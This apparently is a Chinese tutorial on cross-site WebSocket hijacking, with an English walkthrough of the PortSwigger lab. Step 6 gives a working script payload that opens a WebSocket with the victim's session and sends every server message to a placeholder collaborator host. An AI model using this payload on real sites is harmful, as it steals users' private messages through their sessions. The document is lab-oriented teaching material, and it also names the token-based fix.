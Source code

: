跨站点WebSocket劫持是一种类似于CSRF的攻击跨站点请求伪造. 当服务器仅依赖会话身份验证数据（cookies）来执行经过身份验证的操作时，这两种攻击都可能发生。

 对于CSRF，攻击者将请求隐藏在链接或其他元素中，这些元素将在其（经过身份验证的）受害者的屏幕上可见。攻击者会提示受害者单击它来执行隐藏请求所请求的操作。因此，攻击者可以使受害者在不知情的情况下做一些有害的事情。缺点是攻击者无法看到服务器对请求的响应（由于源站策略），这一缺点在WebSockets中已不复存在，因为它不实现源站策略。这使攻击者能够使用受害者的凭据创建全双工连接。

实际上，当WebSocket握手易受CSRF攻击时，跨站点WebSocket劫持攻击是可能的。实际上，双方（客户机/服务器）之间的通信通道是根据打开请求的来源创建的。因此，如果协议更改请求仅基于cookies，则攻击者可以诱捕受害者，在攻击者的服务器上使用其会话发起请求

一旦被困住，攻击者可以在受害者不知情的情况下通过WebSockets与服务器通信。与经典的CSRF一样，攻击者因此可以代替用户执行操作，但也可以读取通过WebSockets发送的服务器消息

为了解决此漏洞，有必要为每个会话添加一个唯一的令牌，该令牌不能被猜测为握手请求的参数.



## 4.3 复现漏洞

https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

1. Click "Live chat" and send a chat message.                    

2. Reload the page.                    

3. In Burp Proxy, in the WebSockets history tab,  observe that the "READY" command retrieves past chat messages from the  server.                    

4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.                    

5. Right-click on the handshake request and select "Copy URL".                    

6. In the browser, go to the exploit server and paste the following template into the "Body" section:  

   ```
   <script>
       var ws = new WebSocket('wss://your-websocket-url');
       ws.onopen = function() {
           ws.send("READY");
       };
       ws.onmessage = function(event) {
           fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
       };
   </script>    
   ```

7. Replace `your-websocket-url` with the URL from the WebSocket handshake (`your-lab-id.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by Burp Collaborator Client.                    

8. Click "View exploit".                    

9. Poll for interactions using Burp Collaborator  client. Verify that the attack has successfully retrieved your chat  history and exfiltrated it via Burp Collaborator. For every message in  the chat, Burp Collaborator has received an HTTP request. The request  body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.                    

10. Go back to the exploit server and deliver the exploit to the victim.                    
